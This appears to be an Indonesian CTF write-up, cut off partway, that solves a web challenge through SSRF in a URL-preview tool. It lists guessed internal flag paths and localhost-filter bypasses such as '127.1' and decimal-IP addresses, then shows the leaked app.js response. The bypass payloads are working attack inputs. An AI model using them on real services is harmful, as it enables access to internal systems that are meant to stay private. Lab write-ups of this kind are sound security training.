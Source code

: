 ## 2. Path Doang Mah Kureng (Upsolved After Ended)

### Deskripsi

{{< admonition type=info title="Click to show the desc" open=false >}}
  Nge Dir path bang?, Ga cukup brok
  
  https://c-path.itechnocup.id/
  
  Hint 1 Intinya gitu dah hehe...
  
  Hint 2 Coba kalian jadi hacker dan tebak path untuk masuk ke dalam sistem, tapi dengan bypass
{{< /admonition >}}

### Langkah Penyelesaian

**TL;DR**

Simple SSRF bypass dengan akses internal endpoint. Susah karena blackbox dan gak bisa terus-terusan dir scan takut webnya jebol wkwk.

- Setelah halaman dibuka, terdapat link inspector dengan menginputkan URL.
- Saya langsung kepikiran SSRF untuk forge server mengakses internal endpoint (flag endpoint) dan mengembalikannya ke web page.
- Karena gak tau internal endpoint flag yang dimaksud bisa kira-kira aja sih, contohnya:
  - `/flag`
  - `/flag.txt`
  - `/.flag`
  - `/internal`
  - `/internal/flag`
  - `/internal/.flag`
  - `/internal/flag.txt`
- Setelah dicoba-coba, ternyata hanya allow **http** protocol dan gak diizinkan langsung akses local endpoint: `127.0.0.1`.
- Cara bypass-nya cukup simple, bisa dengan beberapa endpoint berikut ini.
  - `http://127.1/app.js`
  - `http://2130706433/app.js`
- Jika kita coba, secara otomatis mengembalikan respons JSON seperti ini:

```json
{
  "ok": true,
  "status": 200,
  "headers": {
    "content-type": "application/javascript; charset=UTF-8",
    "server": ""
  },
  "bodyPreview": "\n(function(){\n  const form = document.getElementById('previewForm');\n  const urlInput = document.getElementById('urlInput');\n  const result = document.getElementById('result');\n  const srvport = document.getElementById('srvport');\n  const uptime = document.getElementById('uptime');\n\n  // Expose current port (not a hint; just UI info)\n  fetch('/healthz').then(() => {\n    try {\n      // Port is embedded by the server (via same-origin); here we infer from location\n      const p = window.location.port || (window.location.protocol === 'https:' ? '443' : '80');\n      srvport.textContent = p;\n    } catch(_) {}\n  });\n\n  // Fake uptime counter (client-side)\n  const start = Date.now();\n  setInterval(() => {\n    const secs = Math.floor((Date.now() - start)/1000);\n    uptime.textContent = secs + 's';\n  }, 1000);\n\n  form.addEventListener('submit', async (e) => {\n    e.preventDefault();\n    result.textContent = 'Fetching…';\n    try {\n      const resp = await fetch('/api/preview', {\n        method: 'POST',\n        headers: {'Content-Type': 'application/json'},\n        body: JSON.stringify({ u: urlInput.value })\n      });\n      const data = await resp.json();\n      result.textContent = JSON.string"
}
```
